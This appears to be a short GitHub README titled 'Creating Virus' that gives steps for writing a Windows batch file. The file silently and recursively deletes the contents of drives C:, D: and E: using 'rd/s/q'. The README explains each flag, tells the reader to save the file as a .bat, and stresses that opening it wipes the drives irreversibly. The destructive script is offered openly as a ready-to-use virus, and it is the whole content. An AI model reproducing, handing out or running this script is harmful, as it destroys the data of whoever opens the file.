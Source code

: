 ![image](https://user-images.githubusercontent.com/64470404/136706179-0f52df4b-a246-424b-a775-e705f29840bb.png)


# CREATING VIRUS 

### VIRUS THAT FORMATS DRIVES.

**STEPS**
- Open notepad and write the following bash scripts:

```
@echo off   
rd/s/q D:   
rd/s/q C:   
rd/s/q E: 
```


Here, <br>


> echo means, it is used to display amy message or string, just like priting the message in the screen. By defauly it is in 'on' mode, but when we turn off, using '@echo off', 
then it prevents every message and commands to view on the screen, including itself. 
<br>

> rd means, 'remove directory' , which means to remove the directory or the folder from the system.
<br>

> /s means, specified directories or subdirectories, and deletes the directories including the files which is inside it.
<br>

> /q means, quiet mode, and it doesn't prompt any notification or any confirmation when deleting any directory.
<br>

> C, D, E are the name of drives/folder/directories, which needs to be formatted completely.
<br>
- Save these command of notepad as anything.bat, name can be anything, but the saved extension should be '.bat'.
<br>
<br>
Now what happens is that, after running this command or opening this notepad in the system, mentioned drives or the folders, immediately within some seconds gets formatted 
and the inside content gets deleted.
<br>
<br>
This can't be prevented and reverted after opening the notepad or the file and so we need to be carefull and keep a backup of our system properly.


